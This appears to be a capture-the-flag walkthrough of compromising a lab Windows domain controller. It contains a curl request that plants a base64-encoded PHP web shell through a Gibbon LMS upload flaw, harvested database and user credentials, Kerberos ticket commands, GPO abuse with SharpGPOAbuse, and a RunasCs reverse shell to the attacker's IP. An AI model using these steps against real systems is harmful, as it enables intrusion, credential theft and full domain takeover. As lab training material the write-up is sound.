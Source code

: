 Started with a nmap scan
```
22 OpenSSH for windows 9.5
53 DNS
80 Apache 2.4.58 OpenSSL 3.1.3 PHP 8.2.12
88 Kerberos
135 Windows RPC
139 netbios ssn
389
445 smb
```
The nmap scan shows a `robots.txt` on the webhost which goes to `http://frizzdc.frizz.htb/home/` when going to the site there is some `base64` encoded txt saying we will learn syscalls and xss but before going further with the site we going to look at everything else first and see what we can find ran a subdomain scan did not find anything ran nxc and enum4linux and got nothing so going back to the site its pretty much a static site but the `staff login` when we go to the login it takes us to a `/gibbon-LMS/` which is a school platform for school management and its running version `25.0.0` and when looking at the applications for student and staff none of them we can apply for but there is a `notice` saying 
```
WES is migrating applictions and tools to something stronger and its going to be useing Azure AD SSO and is the strongist protocol such as **KERBEROS**
```
after some more testing I found a LFI at `http://frizzdc.frizz.htb/Bibbon-LMS/?q=` and there is a file called `gibbon.sql` and there is a user called `F.Frizzle@frizz.htb` after more searching we found a file upload we can upload a image and trick it to be a php file we now we got code exaction as `w.webservice` 
```
curl -X POST "http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php" \  
-H "Host: frizzdc.frizz.htb" \  
--data-urlencode "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" \  
--data-urlencode "path=shell.php" \  
--data-urlencode "gibbonPersonID=0000000001"
```
we can get a reverse shell using metasploit were in the web folder and there is a `config.php` file with creds for the DB `MrBibbonsDB:MisterBibbs!Parrot!?1` we can also run `net user /domain` to get a list of all users now we need to get access to this database if we go back to the `xampp` folder there is a mysql and we go inside of the bin and were can exacute the program `.\mysql.exe` and use the database `gibbon` and select from `gibbonperson` and we see a username of `f.frizzle` and a password hash we can try to crack and we crack it to `Jenni_Luvs_Magic23` we can SSH into the host so gonna try getting a TGT we need to sync are time 
```
ntdate frizzdc.frizz.htb
impacket-getTGT frizz.htb/'f.frizzle':'passowrd' -dc-ip frizzdc.frizz.htb 
export KRB5CCNAME=f.frizzle.ccache
ssh f.frizzle@frizz.htb -K
```
had to edit my `kerb5.conf` file to auth now we can SSH into the host now we need to run bloodhound and we can see there is something that was removed in the trash can its a `7z` file but we need to get this file to are host so lets make a msfvenom payload and put it on the host with `Invoke-WebRequest` now we have the 7z file we need to extract it and see what's inside in the `waptserver.ini` file we find a base64 encoded password and it decodes to `!suBcig@MehTed!R` now we need to get a TGT for the user `M.SchoolBus` now we have access to this user we know this user has `Admin` prives on the DC so we can use `sharphoundsAbuse` for GPO abuse to get the final flag we need to make a GPO
```
New-GPO -Name {{GPO-Name}} | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
.\SharpGPOAbuse.exe --AddLocalAdmin --USerAccount M.SchoolBus --GPOName GPO-new --force
```
now we also need `RunasC.exe` 
```
.\RunasCs.exe 'M.Schoolbus' 'password' cmd.exe -r myip:5555
```
and now we are admin 